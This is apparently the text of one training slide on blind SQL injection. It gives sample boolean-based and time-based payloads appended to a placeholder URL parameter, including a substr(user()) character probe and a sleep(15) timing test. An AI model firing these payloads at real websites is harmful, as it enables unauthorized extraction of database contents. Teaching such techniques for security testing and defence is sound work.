

Blind SQLi
Boolean blind
site.com/products?id=1 and 1=1 (TRUE)
site.com/products?id=1 and 1=2 (FALSE)
site.com/products?id=1' and substr(user(), 1,1) = 'a

Time based blind
site.com/products?id=1 and if(mid(version(),1,1) = '5', sleep(15), 0)